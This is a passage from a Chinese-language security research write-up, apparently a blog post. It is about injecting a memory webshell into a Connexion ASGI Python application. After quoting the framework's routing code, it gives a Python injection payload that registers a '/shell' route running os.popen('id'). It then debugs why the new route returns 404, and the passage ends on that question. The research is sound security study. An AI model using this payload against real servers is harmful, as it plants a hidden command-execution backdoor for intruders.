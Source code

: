 会调用`AsyncASGIApp`对象的`add_url_rule`方法（`#1`）：

```python
class AsyncASGIApp(RoutedMiddleware[AsyncApi]):
    def add_url_rule(
        self,
        rule,
        endpoint: t.Optional[str] = None,
        view_func: t.Optional[t.Callable] = None,
        methods: t.List[str] = None,
        **options,
    ):
        self.router.add_route(rule, endpoint=view_func, name=endpoint, methods=methods)
        
        
class Router:
    def add_route(
        self,
        path: str,
        endpoint: typing.Callable[[Request], typing.Awaitable[Response] | Response],
        methods: list[str] | None = None,
        name: str | None = None,
        include_in_schema: bool = True,
    ) -> None:  ## pragma: no cover
        route = Route(
            path,
            endpoint=endpoint,
            methods=methods,
            name=name,
            include_in_schema=include_in_schema,
        )
        self.routes.append(route) #2
```

跟进，最后会在`AsyncASGIApp`对象的`router.routes`列表中下增加一个`route`（`#2`），所以直接尝试通过调用这方法增加一个路由，paylaod如下：

```python
__import__('sys').modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda:__import__('os').popen('id').read())
```

请求没有报错：

 ![](/attachments/2025-04-09-connexion-api/2fcd0cb5-23a5-46ff-8452-58a6d9a932d1.png " =912x183")

接着访问`/shell`路由，但结果404：

 ![](/attachments/2025-04-09-connexion-api/24d070de-dac8-4511-90f5-2fd95e86e6e1.png " =679x255")

在`connexion.apps.asynchronous.AsyncASGIApp.add_url_rule`处下断点，再次请求增加路由的payload：

 ![](/attachments/2025-04-09-connexion-api/85cf3e81-f84c-4922-9f82-e4bacef307c6.png " =983x477")

发现刚才请求的那条`route`确实已经添加进了`AsyncASGIApp`对象的`router.routes`列表中，但为何请求/shell还是404呢？
